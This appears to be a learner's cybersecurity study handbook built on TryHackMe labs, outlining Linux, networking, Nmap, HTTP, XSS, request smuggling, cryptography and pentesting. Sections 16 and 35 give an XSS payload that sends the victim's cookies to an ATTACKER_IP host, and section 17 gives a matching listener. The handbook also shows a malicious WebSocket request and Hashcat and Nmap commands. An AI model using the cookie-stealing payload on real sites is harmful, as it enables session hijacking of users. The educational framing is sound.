# Cybersecurity Handbook  
## Practical Learning Journey with TryHackMe

Author: Felipe Maragano  
Focus: Offensive Security, Web Security, Cryptography, and Pentesting  

---

# Table of Contents

1. Introduction  
2. Ethical and Legal Disclaimer  
3. Cybersecurity Learning Roadmap  
4. Operating System Fundamentals  
5. Linux Fundamentals  
6. File Systems and Permissions  
7. Processes and Memory  
8. Networking Fundamentals  
9. TCP/IP Model  
10. Network Reconnaissance  
11. Nmap Deep Dive  
12. Web Application Architecture  
13. HTTP Protocol Deep Dive  
14. Cookies and Sessions  
15. Burp Suite Fundamentals  
16. Cross-Site Scripting (XSS)  
17. Cookie Theft Attacks  
18. Web Exploitation Workflow  
19. HTTP Request Smuggling  
20. WebSocket Exploitation  
21. Server-Side Request Forgery (SSRF)  
22. Authentication Vulnerabilities  
23. Cryptography Fundamentals  
24. Hash Functions  
25. HMAC  
26. Password Cracking  
27. Hashcat  
28. RSA Cryptography  
29. Security Tools Used  
30. Pentesting Methodology  
31. Active Directory Attacks  
32. Privilege Escalation  
33. Bug Bounty Methodology  
34. Pentesting Reporting  
35. Scripts and Exploits Explained  
36. Key Lessons Learned  
37. Future Learning Path  

---

# 1. Introduction

Cybersecurity is a discipline built on **hands-on practice**.

Understanding theoretical concepts is important, but true mastery comes from **real-world exercises and labs**.

Platforms such as **TryHackMe** provide simulated environments where learners can safely practice:

- penetration testing
- vulnerability discovery
- exploitation techniques
- security tool usage

This document compiles months of practical learning including:

- commands used in labs
- scripts and payloads
- attack methodologies
- exploitation techniques
- cryptography exercises
- web security vulnerabilities

The objective is to create a **complete cybersecurity study guide**.

---

# 2. Ethical and Legal Disclaimer

All techniques discussed in this document are presented **strictly for educational purposes**.

They must only be used in:

- authorized penetration testing engagements
- personal lab environments
- cybersecurity training platforms such as:
  - TryHackMe
  - HackTheBox
  - Capture The Flag competitions

Unauthorized hacking is illegal.

Ethical hacking requires:

- explicit authorization
- responsible disclosure
- professional integrity

---

# 3. Cybersecurity Learning Roadmap



---

# 4. Operating System Fundamentals

An operating system manages computer hardware and software resources.

Responsibilities include:

- memory management
- process scheduling
- file systems
- device communication
- user management

Common operating systems:

- Linux
- Windows
- macOS

Cybersecurity labs commonly use **Linux-based systems**.

---

# 5. Linux Fundamentals

Linux provides powerful tools for cybersecurity professionals.

Important directories:

```
/
├── home
├── etc
├── var
├── usr
├── tmp
```

Basic commands:

```bash
ls
pwd
cd directory
cat file.txt
```

---

# 6. File Systems and Permissions

Linux permissions:

```
-rwxr-xr--
```

Meaning:

| Symbol | Meaning |
|------|------|
r | read |
w | write |
x | execute |

---

# 7. Processes and Memory

Processes represent running programs.

Useful commands:

```bash
ps aux
top
htop
```

Process hierarchy:



---

# 8. Networking Fundamentals

Networking allows communication between computers.

Key components:

- IP addresses
- ports
- protocols

Example IP:

```
192.168.1.10
```

---

# 9. TCP/IP Model



---

# 10. Network Reconnaissance

Reconnaissance is the first phase of penetration testing.

Objectives:

- identify targets
- discover open ports
- determine running services

---

# 11. Nmap Deep Dive

Basic scan:

```bash
nmap -sS -p- target_ip
```

Service detection:

```bash
nmap -sC -sV target_ip
```

Workflow:



---

# 12. Web Application Architecture

Modern web applications consist of:

- client browser
- web server
- application logic
- database



---

# 13. HTTP Protocol Deep Dive

Example HTTP request:

```
GET /index.html HTTP/1.1
Host: example.com
```

HTTP components:

- method
- headers
- body
- status codes

Common methods:

| Method | Purpose |
|------|------|
GET | retrieve data |
POST | submit data |
PUT | update resource |
DELETE | remove resource |

---

# 14. Cookies and Sessions

Cookies store session information.

Example cookie:

```
sessionid=9832423423
```

Session workflow:



---

# 15. Burp Suite Fundamentals

Burp Suite is a professional web security testing tool.

Modules include:

- Proxy
- Repeater
- Intruder
- Scanner

Used for:

- intercepting traffic
- modifying requests
- testing vulnerabilities

---

# 16. Cross Site Scripting (XSS)

XSS occurs when user input is executed as JavaScript.

Example payload:

```html
<script>
window.location='http://ATTACKER_IP/?'+document.cookie;
</script>
```

Attack diagram:



---

# 17. Cookie Theft Attacks

If cookies are stolen, attackers can hijack sessions.

Listener example:

```bash
python3 -m http.server 9001
```

---

# 18. Web Exploitation Workflow

Typical web testing workflow:



---

# 19. HTTP Request Smuggling

Occurs when servers interpret requests differently.

Important headers:

```
Content-Length
Transfer-Encoding
```

Diagram:



---

# 20. WebSocket Exploitation

Example malicious request:

```
GET /socket HTTP/1.1
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Version: 777
```

Diagram:



---

# 21. SSRF (Server-Side Request Forgery)

SSRF allows attackers to force servers to access internal resources.



---

# 22. Authentication Vulnerabilities

Common authentication weaknesses:

- weak passwords
- session fixation
- credential reuse

---

# 23. Cryptography Fundamentals

Cryptography protects data through:

- encryption
- hashing
- digital signatures

---

# 24. Hash Functions

Example:

```
password → 5f4dcc3b5aa765d61d8327deb882cf99
```

Properties:

- pre-image resistance
- collision resistance

---

# 25. HMAC

HMAC combines:

- secret key
- hash function

Used for message authentication.

---

# 26. Password Cracking

Weak passwords can be cracked using wordlists.

Example wordlist:

```
rockyou.txt
```

---

# 27. Hashcat

Example command:

```bash
hashcat -a 0 -m 150 digest.txt rockyou.txt
```

Meaning:

- dictionary attack
- specific hash type

---

# 28. RSA Cryptography

RSA uses two keys:

- public key
- private key

```
n = p × q
```

If p and q are discovered, encryption is broken.

---

# 29. Security Tools Used

| Tool | Purpose |
|----|----|
Nmap | network scanning |
Burp Suite | web testing |
Hashcat | password cracking |
Python HTTP server | local listener |

---

# 30. Pentesting Methodology



---

# 31. Active Directory Attacks

Common AD attacks:

- Kerberoasting
- Pass-the-Hash
- Golden Ticket



---

# 32. Privilege Escalation

Privilege escalation occurs when attackers gain higher permissions.



---

# 33. Bug Bounty Methodology



---

# 34. Pentesting Reporting

A professional report includes:

- executive summary
- methodology
- findings
- risk rating
- remediation advice

---

# 35. Scripts and Exploits Explained

Example XSS payload:

```html
<script>
window.location='http://ATTACKER_IP/?'+document.cookie;
</script>
```

Purpose:

Demonstrates session hijacking in controlled lab environments.

---

# 36. Key Lessons Learned

Important insights:

- tools are only as effective as the user
- understanding protocols is critical
- many vulnerabilities arise from poor input validation
- real attacks often combine multiple weaknesses

---

# 37. Future Learning Path

Next topics to explore:

- cloud security
- container security
- malware analysis
- threat hunting
- advanced web exploitation

---

# Final Thoughts

Cybersecurity is a continuous learning journey.

Hands-on practice in platforms like TryHackMe allows students to build real skills while maintaining ethical standards.
